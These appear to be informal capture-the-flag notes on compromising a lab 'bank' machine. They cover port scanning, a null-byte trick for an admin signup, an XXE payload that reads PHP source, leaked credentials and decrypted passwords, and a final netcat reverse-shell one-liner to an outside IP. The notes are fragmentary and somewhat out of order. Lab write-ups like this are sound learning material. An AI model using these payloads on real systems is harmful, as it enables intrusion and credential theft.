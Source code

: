 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx battery.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV battery.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

we found a report binary

support@bank.a
contact@bank.a
cyber@bank.a
admins@bank.a
sam@bank.a
admin0@bank.a
super_user@bank.a
admin@bank.a
control_admin@bank.a
it_admin@bank.a


check vhost : nothing
check feroxbuster in /ie/ directory
check feroxbuster on admin page with PHPSESSID

we can create an account with the admin@bank.a by settings a null character at the end so the verification of the email is corrupted
admin@bank.a%00

so now we can access the admin page

$dbh = new PDO('mysql:host=127.0.0.1;dbname=details', 'root', 'idkpass');

we found in acc.php the creds : cyber:super#secure&password!

to get acc.php content, we use php filter base64 encode and XXE at the same time
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/acc.php" > ]><root><name>20</name><search>&test;</search></root>


```
mysql> select * from users;
+--------------+--------------------+-----+--------+-----------+
| username     | password           | cno | amount | bank_name |
+--------------+--------------------+-----+--------+-----------+
| cyber        | cyber              |  14 |      0 | ABC       |
| admin@bank.a | I_know_my_password |  15 |      0 | ABC       |
| admin        | pass               |  17 |      0 | ABC       |
| check        | check              |  19 |      0 | ABC       |
| admin@bank.a | password           |  20 |      0 | ABC       |
+--------------+--------------------+-----+--------+-----------+
5 rows in set (0.00 sec)
```


3.13.0-32-generic

/etc/ld.so.preload is writable

/usr/bin/mysqladmin -u root -h ubuntu password 'new-password'
Nov 11 00:43:45 ubuntu mysqld_safe[2800]: /usr/bin/mysqladmin -u root password 'new-password'


encrypted_text:gAAAAABfs33Qms9CotZIEBMg76eOlwOiKU8LD_mX2F346WXXBVIlXWvWGfreAX4kU5hjGXf0PiwtP0cmOm5JSUI7zl03V1JKlA==

key:7OEIooZqOpT7vOh9ax8arbBeB8e243Pr8K4IVWBStgA=


we see the file is fernet that is a encryption / decryption known symetric hash algorigthm
we use this website and can get the password : https://asecuritysite.com/tokens/ferdecode
idkpassyash


rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.72.209 6667 >/tmp/f
